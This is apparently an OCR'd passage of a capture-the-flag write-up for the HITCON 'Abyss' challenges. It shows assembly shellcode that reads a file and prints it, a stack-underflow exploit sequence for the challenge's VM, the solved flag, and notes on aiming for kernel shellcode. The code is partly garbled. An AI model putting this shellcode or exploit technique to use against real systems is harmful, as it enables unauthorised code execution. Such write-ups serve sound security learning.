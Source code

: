 ```asm
  in eax, dx

  mov ecx, eax
  cmp ecx, 0
  jl exit

  # Same as part 1...
  mov edi, eax
  mov rsi, rsp
  mov edx, 0x100
  mov eax, 0
  syscall

  mov ecx, eax
  cmp ecx, 0
  jl exit
  
  mov edi, 1
  mov rsi, rsp
  mov edx, eax
  mov eax, 1
  syscall

  mov ecx, 0

exit:
  mov edi, ecx
  mov eax, 60
  syscall

prompt:
  .string "Please enter filename to open:"
  # oops this contains a null term as well...
promptend:
ENDASM  

pop

# Okay cause stack underflow
1
neg
swap # cause a stack underflow, and swap with stack ptr
pop
pop

# ... same as previous exploit code
```

Okay so the flag for this one was `hitcon{Go_ahead,_traveler,_and_get_ready_for_deeper_fear.}`

## Abyss 3
Okay so I haven't totally finished it yet. So basically what I have done so far,
I want to be able to get kernel shellcode to run so that I can easily access
kernel memory. 
